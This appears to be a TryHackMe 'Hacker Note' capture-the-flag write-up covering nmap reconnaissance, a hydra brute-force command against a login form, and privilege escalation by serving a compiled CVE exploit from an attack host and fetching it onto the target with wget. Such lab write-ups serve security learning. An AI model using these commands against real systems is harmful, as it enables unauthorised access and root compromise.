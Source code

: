```yaml
---
title: THM Hacker Note
date: 2021-01-22 21:50:00 +0000
categories: [Security, TryHackMe]
tags: [thm, hackernote, writeup]     # TAG names should always be lowercase
---
```


Task 1: Reconnaissance
To identify open ports inside the target machine, you can use nmap
namp -sV -O -v <ip>

-sV flag will give you details about software accessible through the open ports.

Task 2: Investigate
Follow the instruction provided. Nothing to answer.

Task 3: Exploit
Follow the instruction provided. Use the provided script if you are block.

Task 4: Attack Passwords
Follow the instruction and use hydra to bruteforce the password.
Optimize the wordlist based on the information found on the login's hint for the user.
Then execute hydra command
hydra -l <user> -P <wordlist> <ip> http-post-form "/api/user/login:username=^USER^&password=^PASS^&Login=Login:Invalid Username Or Password"

Then check jame's note to answer the last question and found the flag.
ssh james@<ip>
find / -name user.txt 2>/dev/null
cat /james/user.txt

Task 5: Escalate
Read the instruction and some Google research are enough to found the CVE related to this settings.
Recover the exploit you found based on the CVE number and compile into your attack machine (write make inside the folder to execute the makeFile and build the exploit)
Then transfert the exploit binary created after the make command to the target machine.
There is several way but an easy one consist of starting a webserver inside your attack machine on the folder where you have build the exploit and then wget the file inside the target mahcine through your previous SSH connection.
For exemple, run the following command on your attach machine
python3 -m http.server
This command will load the http.server module of python on the current repository. We can see that the http.server module listen on port 8000
Then on the target machine, download the file
wget <attack_ip>:<port>/exploit 
This will download the file. 
Finaly you have to add execution rights on the file and execute it.
chmod +x exploit
./exploit
Then you have a new shell open, write id or whoami to see that you are now root.
Found the root flag to finish
find / -name root.txt 2>/dev/null
cat /root/root.txt

Task 6: Comments on realism and Further Reading
Nothing to do, just read the instruction.
